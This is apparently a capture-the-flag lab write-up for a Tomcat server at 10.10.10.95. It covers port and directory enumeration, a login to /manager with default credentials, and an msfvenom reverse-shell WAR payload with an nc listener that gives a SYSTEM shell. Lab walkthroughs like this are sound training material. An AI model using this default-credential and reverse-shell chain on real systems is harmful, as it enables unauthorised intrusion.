 Target: 10.10.10.95

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.95

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-15 00:15 PDT
Nmap scan report for 10.10.10.95
Host is up (0.058s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

ffuf
```
$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.10.10.95:8080/FUZZ -fc 200

docs                    [Status: 302, Size: 0, Words: 1, Lines: 1]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1]
host-manager            [Status: 302, Size: 0, Words: 1, Lines: 1]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1]
```

checking /manager

![/manager](jerry1.png)

trying default username:password (tomcat:s3cret)

![login success](jerry2.png)

### Findings:Looking for attack vectors

The /manager can be accessed with default credentials.
Create and upload a malicous war payload.


## Foothold:

crafting a war payload with msfvenom
```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=9001 -f war > shell.war

Payload size: 1101 bytes
Final size of war file: 1101 bytes
```

uploading the payload

![payload](jerry3.png)

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

getting a reverse shell
```
curl http://10.10.10.95:8080/shell/
```

```
C:\apache-tomcat-7.0.88>whoami

nt authority\system
```

```
C:\apache-tomcat-7.0.88> cd ..\Users\Administrator\Desktop\flags

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"

user.txt
<redacted>

root.txt
<redacted>
```
